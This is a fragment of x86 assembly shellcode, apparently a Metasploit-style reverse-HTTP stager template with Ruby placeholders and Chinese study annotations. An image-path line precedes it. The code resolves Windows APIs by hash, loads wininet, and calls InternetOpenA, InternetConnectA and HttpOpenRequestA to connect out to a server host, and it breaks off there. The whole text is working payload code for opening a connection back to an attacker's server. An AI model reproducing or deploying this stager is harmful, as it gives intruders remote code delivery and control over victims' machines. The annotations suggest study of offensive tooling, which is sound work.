 		; actual routine
		start:
		  pop ebp                ; get ptr to block_api routine
		; based on HDM's block_reverse_https.asm
		load_wininet:
		  push 0x0074656e        ; Push the bytes 'wininet',0 onto the stack.【要使用的dll】
		  push 0x696e6977        ; ...
		  mov esi, esp           ; Save a pointer to wininet
		  push esp               ; Push a pointer to the "wininet" string on the stack.
		  push 0x0726774C        ; hash( "kernel32.dll", "LoadLibraryA" )【利用LoadLibraryA加载对应API函数】
		  call ebp               ; LoadLibraryA( "wininet" )
		
		internetopen:;【初始化WinINet函数】
		  xor edi,edi
		  push edi               ; DWORD dwFlags
		  push edi               ; LPCTSTR lpszProxyBypass
		  push edi               ; LPCTSTR lpszProxyName
		  push edi               ; DWORD dwAccessType (PRECONFIG = 0)
		  push esi               ; LPCTSTR lpszAgent ("wininet\x00")
		  push 0xA779563A        ; hash( "wininet.dll", "InternetOpenA" )
		  call ebp
		
		  jmp.i8 dbl_get_server_host
		
		internetconnect:;【建立 Internet 的连接】
		  pop ebx                ; Save the hostname pointer
		  xor ecx, ecx
		  push ecx               ; DWORD_PTR dwContext (NULL)
		  push ecx               ; dwFlags
		  push #{protoflags[proto]}	; DWORD dwService (INTERNET_SERVICE_HTTP or INTERNET_SERVICE_FTP)
		  push ecx               ; password
		  push ecx               ; username
		  push #{port_nr}        ; PORT
		  push ebx               ; HOSTNAME
		  push eax               ; HINTERNET hInternet
		  push 0xC69F8957        ; hash( "wininet.dll", "InternetConnectA" )  Windows应用程序网络相关模块
		  call ebp
		
		  jmp.i8 get_server_uri
		
		httpopenrequest:
		  pop ecx
		  xor edx, edx            ; NULL
		  push edx                ; dwContext (NULL)
		  #{dwflags_asm}          ; dwFlags
		  push edx                ; accept types
		  push edx                ; referrer
		  push edx                ; version
		  push ecx                ; url
		  push edx                ; method
		  push eax                ; hConnection
		  push 0x3B2E55EB         ; hash( "wininet.dll", "HttpOpenRequestA" )
		  call ebp
		  mov esi, eax            ; hHttpRequest
		